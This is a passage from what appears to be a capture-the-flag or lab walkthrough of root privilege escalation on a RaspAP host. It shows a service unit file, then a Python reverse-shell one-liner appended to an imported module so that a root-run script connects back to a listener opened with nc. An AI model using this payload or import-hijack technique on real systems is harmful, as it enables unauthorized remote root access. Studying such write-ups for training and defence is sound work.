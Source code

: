 ![](./assets/write-raspapd-service.png)

```
$ ls -la | grep rasp
-rw-r--r--  1 www-data www-data   612 Aug 14  2023 raspapd.service
$ cat raspapd.service
### BEGIN INIT INFO
# Provides:          raspapd
# Required-Start:    $remote_fs $syslog
# Required-Stop:     $remote_fs $syslog
# Default-Start:     S 2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Start RaspAP daemon at boot time
# Description:       Enable service provided by daemon
### END INIT INFO
# Author: BillZ <billzimmerman@gmail.com>

[Unit]
Description=RaspAP Service Daemon
DefaultDependencies=no
After=multi-user.target

[Service]
Type=oneshot
ExecStart=/bin/bash /etc/raspap/hostapd/servicestart.sh --interface uap0 --seconds 3
RemainAfterExit=no

[Install]
WantedBy=multi-user.target
```

I spend some time tring to modify the `ExecStart` section of the system unit config file. I try restarting the AP on the web ui and getting that to trigger that reverse shell. I have no luck...

I go back to look at that python script, which we can execute as root.

I notice that it is importing `wificontroller` without an explicit location, so maybe I can write a reverse shell into `wificontroller.py` and then run that script as root to execute it.


I write the shell with:

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.239",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> wificontroller.py
```

I set up my listener in kali with `nc -lvnp 4242`
